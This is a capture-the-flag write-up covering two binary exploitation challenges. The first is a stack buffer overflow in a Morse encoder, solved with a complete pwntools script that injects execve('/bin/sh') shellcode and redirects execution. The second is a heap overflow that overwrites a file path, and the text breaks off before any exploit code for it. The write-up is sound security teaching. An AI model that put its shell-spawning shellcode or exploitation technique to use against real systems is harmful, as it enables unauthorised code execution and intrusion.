 ## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis

![image](https://github.com/user-attachments/assets/4f5cc698-593f-470a-96aa-8cf7132132a2)

Opening the binary in Ghidra, we can see that there is a buffer overflow with the gets() function inside the heap memory region due to the use of `malloc(0x40)`. Then, there is a second chunk allocated which contains the path `/etc/passwd`. So the goal is simple, bof enough until we reach the 2nd chunk and overwrite with the path to the flag. 

```
└─$ cat Dockerfile 
FROM ubuntu:22.04
ENV LC_CTYPE C.UTF-8
ENV DEBIAN_FRONTEND=noninteractive

<-- setup snippet -->

# flag location: /flag/secretflag/flag

CMD ["/start.sh"]

EXPOSE 9997
```

In the dockerfile, we can find the path to the flag. Before we go into exploitation, we need a little understanding about a heap structure first.

![image](https://github.com/user-attachments/assets/f4f8bc26-3782-4c63-8e3e-ce7cd50f149a)

The image above shows the structure of a heap chunk when we allocate it. The payload area is the location where we can store data. Above the payload, there is some metadata about the heap chunk. For example, the size of the chunk and also some flags (AMP) needed for internal functions. We can verify this by taking a look in gdb.

